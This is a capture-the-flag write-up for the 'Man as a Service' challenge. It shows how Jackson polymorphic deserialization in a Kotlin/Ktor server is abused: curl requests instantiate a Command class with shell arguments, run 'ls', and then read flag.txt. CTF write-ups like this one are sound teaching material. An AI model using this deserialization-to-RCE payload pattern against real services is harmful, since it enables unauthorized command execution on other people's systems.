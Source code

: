 # Man as a Service
Here you are greeted with three buttons. Each button will send a XHR request to http://manasaservice.tghack.no:1337/execute
with the payload
```json
{"command":{"@class":"no.tghack.ManManCommand"}}
```
Looking at the response headers you can also see this is a Ktor server, so its an Kotlin + JVM application.

## Trying to exploit 
The command takes in a field @Class which is a full class name with a package. Lets try to see if we can create
instances of Java classes
```bash
$ curl -H "Accept: application/json" -H "Content-Type: application/json" --data '{"command":{"@class":"java.lang.Object"}}' http://manasaservice.tghack.no:1337/execute
Could not resolve type id 'java.lang.Object' as a subtype of `no.tghack.Command`: Not a subtype
 at [Source: (InputStreamReader); line: 1, column: 22] (through reference chain: no.tghack.CommandRequest["command"])
```
Ok from this error we can extract two things. googling the error should tell us that this application is using Jackson.
Also it tells us that the class used in the command field has to be a subtype of `no.tghack.Command`, although it might
be an abstract class or interface. Lets try to create a instace of the `Command` class anyway.
```bash
$ curl -H "Accept: application/json" -H "Content-Type: application/json" --data '{"command":{"@class":"no.tghack.Command"}}' http://manasaservice.tghack.no:1337/execute
Cannot deserialize instance of `[Ljava.lang.String;` out of END_OBJECT token
 at [Source: (InputStreamReader); line: 1, column: 41] (through reference chain: no.tghack.CommandRequest["command"])
```

Okay now we know that Command is a fully-blown class, looking at
`Cannot deserialize instance of ``[Ljava.lang.String;`` out of` we can also see that it tries to deserialize an object
as a `String` array. Which means that `Command` has a constructor which accepts a `String` array. Maybe this is an array
of command arguments? Lets try:
``` bash
$ curl -H "Accept: application/json" -H "Content-Type: application/json" --data '{"command":["no.tghack.Command",["ls"]]}' http://manasaservice.tghack.no:1337/execute
{"command":{"@class":"no.tghack.Command","result":"bin\ndev\netc\nflag.txt\nhome\njson-gadget-all.jar\nkctf\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nstatic\nsys\ntmp\nusr\nvar\n"}}
```

What is happening here? So Jackson has a way of creating a class instance from an JSON array containing first the class
then all the main argument for the constructor. Since the main argument of this class is an `String` array we can pass
`["ls"]` as the constructor parameters. In the result we can also see the file listing containing a file called
`flag.txt`. Lets try to get it.

```bash
$ curl -H "Accept: application/json" -H "Content-Type: application/json" --data '{"command":["no.tghack.Command",["cat", "flag.txt"]]}' http://manasaservice.tghack.no:1337/execute
{"command":{"@class":"no.tghack.Command","result":"TG21{...}\n"}}
```
